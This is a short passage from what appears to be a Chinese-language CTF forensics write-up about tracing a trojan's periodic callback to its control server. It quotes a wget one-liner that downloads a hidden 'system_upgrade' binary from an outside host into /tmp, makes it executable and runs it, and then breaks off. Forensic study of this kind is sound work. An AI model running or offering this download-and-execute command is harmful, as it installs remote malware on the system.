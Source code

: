 ![img](img/image_20250334-183415.png)

## 1

> 找出主机上木马回连的主控端服务器 IP 地址 (不定时 (3\~5 分钟) 周期性)，并以 `flag{MD5}` 形式提交，其中 MD5 加密目标的原始字符串格式 `IP:port`

在 `ubuntu` 用户目录下找到一个 `txt` 文本文件

```plaintext title="/home/ubuntu/1.txt"
wget –quiet http://mirror.unknownrepo.net/f/l/a/g/system_upgrade -O /tmp/.system_upgrade && chmod +x /tmp/.system_upgrade && /tmp/.system_upgrade
```

说明曾从 `http://mirror.unknownrepo.net/f/l/a/g/system_upgrade` 下载文件并储存为 `/tmp/.system_upgrade`

在用户目录下存在有 `viminfo` 缓存文件，在其中可以注意到
